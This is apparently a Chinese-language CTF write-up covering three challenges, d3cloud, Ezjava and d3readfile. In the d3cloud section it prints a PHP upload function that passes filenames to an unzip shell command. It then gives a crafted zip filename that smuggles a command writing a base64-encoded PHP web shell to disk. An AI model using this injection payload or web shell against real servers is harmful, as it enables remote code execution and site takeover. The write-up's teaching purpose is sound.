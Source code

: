 ## Web
### d3cloud
访问/admin后台 admin:admin登录管理员账号
在侧边栏有文件管理，可以上传zip包，同时下载文件`FilesystemAdapter.php`
对文件进行代码审计后,在这里的解压存在命令注入

```php
public function putFileAs($path, $file, $name, $options = [])
    {
        $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
        $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
        if (!in_array($file_type, $supported_file)) {
            return false;
        }
        $stream = fopen($file->getRealPath(), 'r+');
        $result = $this->put(
            $path = trim($path.'/'.$name, '/'), $stream, $options
        );
        if (is_resource($stream)) {
            fclose($stream);
        }
        if($file->getClientOriginalExtension() === "zip") {
            $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
            pclose($fs);
        }
        return $result ? $path : false;
    }
```

`1.zip || echo PD9waHAgZXZhbCgkX1JFUVVFU1RbInd1d3Vtb25zdGVyIl0pO3BocGluZm8oKTs= | base64 -d > shell.php # .zip`

![](attachments/Pasted%20image%2020230506152056.png)


直接访问shell.php

![](attachments/Pasted%20image%2020230506152206.png)

### Ezjava
在register里有hessian2的反序列化位置

![](attachments/Pasted%20image%2020230511133049.png)

在源码里面是可以看到flag自身是在server中的，server中代码和依赖有很明显的fastjson


![](attachments/Pasted%20image%2020230511133608.png)

## Misc
### d3readfile
在一个日志文件里面发现了有下载locate的历史记录，后面把locate拖出来做逆向

![](attachments/Pasted%20image%2020230503132422.png)

读取对应路径后发现

![](attachments/Pasted%20image%2020230503133013.png)

去除！后 `/opt/vwMDP4unF4cvqHrztduv4hpCw9H9Sdfh/UuRez4TstSQEXZpK74VoKWQc2KBubVZi/LcXAfeaD2KLrV8zBpuPdgsbVpGqLcykz/flag_1s_h3re_233`

![](attachments/Pasted%20image%2020230503133245.png)
